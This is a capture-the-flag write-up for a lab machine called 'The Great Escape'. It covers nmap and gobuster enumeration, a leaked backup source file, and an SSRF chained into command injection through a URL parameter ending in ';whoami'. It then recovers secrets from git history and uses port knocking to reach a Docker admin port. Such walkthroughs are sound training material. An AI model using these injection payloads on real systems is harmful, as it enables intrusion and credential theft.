




# The Great Escape

## Enumeration

### Port Scan

The first thing we need to do with this target is enumerate it. To start, we will run an `NMAP` scan in an attempt to discover open ports. The following command will conduct an "Aggressive" scan on the target, including traceroute, default scripts, all ports, OS identification, etc. 

Command:

```bash
nmap -A -n -T5 -p- $TARGET
```

Output:

```bash
Nmap scan report for 10.10.211.81
Host is up (0.095s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh?
| fingerprint-strings: 
|   GenericLines: 
|_    x7(1"197=iSKx3na=i3w*f
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp open  http    nginx 1.19.6
| http-robots.txt: 3 disallowed entries 
|_/api/ /exif-util /*.bak.txt$
|_http-server-header: nginx/1.19.6
|_http-title: docker-escape-nuxt
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.91%I=7%D=10/2%Time=6339EC53%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,18,"x7\(1\"197=iSKx3na=i3w\*f\r\n");
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   78.20 ms  10.6.0.1
2   ... 3
4   146.41 ms 10.10.211.81

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 15:57:10 2022 -- 1 IP address (1 host up) scanned in 269.25 seconds

```

### Site Enumeration

Now that we see that port 80 is open and this machine is hosting a webserver, we should enumerate the directories and see if there is anything interesting to be found. This can be accomplished using `Gobuster`.  For this scan, `raft-large-directories-lowercase.txt` was used as the wordlist. We need to specify the flag `-b` with codes `200,404,503` because of the behavior of the website.

Command:

```bash
gobuster dir -u http://$TARGET/ -w <path_to_wordlist> -t <number_of_threads> -b 503,200,404
```

Unfortunately, the results do not show much. The only endpoint discovered by `Gobuster` is `/api`. This low number of results is because the server responds with a `503` status code if too many requests are sent to it in a short amount of time. 

The next step is to see if there is a `robots.txt` file. Going to `http://$TARGET/robots.txt` reveals the following information:

```bash
User-agent: *
Allow: /
Disallow: /api/
# Disallow: /exif-util
Disallow: /*.bak.txt$
```

What sticks out here is the `/*.bak.txt$` entry. This means there are backup text files present on the server. Going to `http://$TARGET/exif-util.bak.txt` reveals the source of `/exif-util` which, in turn, reveals a new location: `/api-dev-backup:8080/exif` (this will come in handy later on). 

This script show us what the site is doing when we submit a POST request to `/exif-util`:

```js
try {
        const response = await this.$axios.$get('http://api-dev-backup:8080/exif', {
          params: {
            url: this.url,
          },
        })
        this.hasResponse = true
        this.response = response
      } catch (err) {
        console.log(err)
        this.$buefy.notification.open({
          duration: 4000,
          message: 'Something bad happened, please verify that the URL is valid',
          type: 'is-danger',
          position: 'is-top',
          hasIcon: true,
        })
      }
}
```


What is happening here is, the site takes the `url` parameter we pass to it, and passes it as a `url` parameter to `api-dev-backup:8080/exif`, but it only allows valid URLs to be passed. This opens the site up to a Server Side Request Forgery attack (SSRF). If we pass `http://api-dev-backup:8080/exif` with a custom `url` parameter, we can get the site to make a malicious request on our behalf and gain Remote Code Execution (RCE).

To test this theory, an to gain more information, we can pass in the following route:

```
/api/exif/?url=http://api-dev-backup:8080/exif?url=
```

The response to is request (`http://$TARGET/$ROUTE`) returns the usage information for the `curl` command. This leads us to believe that this `url` parameter is being passed to the command line, opening up the target to RCE.

Return:



If we make `api-dev-backup:8080`'s `url` parameter `whoami`, we get `root` returned.

URL:

```bash
http://$TARGET/api/exif?url=http://api-dev-backup:8080/exif?url=127.0.0.1;whoami
```

Return:



If we view all the contents of the user's HOME (~) directory, we find there is a `.git` file present. With this file present, we can review the commit history of the application, potentially discovering sensitive information. There is also a `dev-note.txt` file present in the directory which holds an alleged SSH password.  

Home Dump:



Looking at the git commit history, the flag and original dev note were removed in the second commit. The data is still present, however, in the git history. We can access it by viewing the first commit or the second commit. 

Access second commit:

```bash
git show <commit_hash>
```

This reveals some ports to knock to open the docker remote admin port, and a flag.



## Custom Exploit (Golang)

To automate the exploitation of this machine, a golang program was written and can be found [here](exploit.go).  This program extracts two flags and opens up a closed port using a technique known as `Port Knocking`. After the program has successfully executed, the user can execute Docker commands on the target machine and gain access to the root file system and final flag.

## Screenshots

Exploit Run:

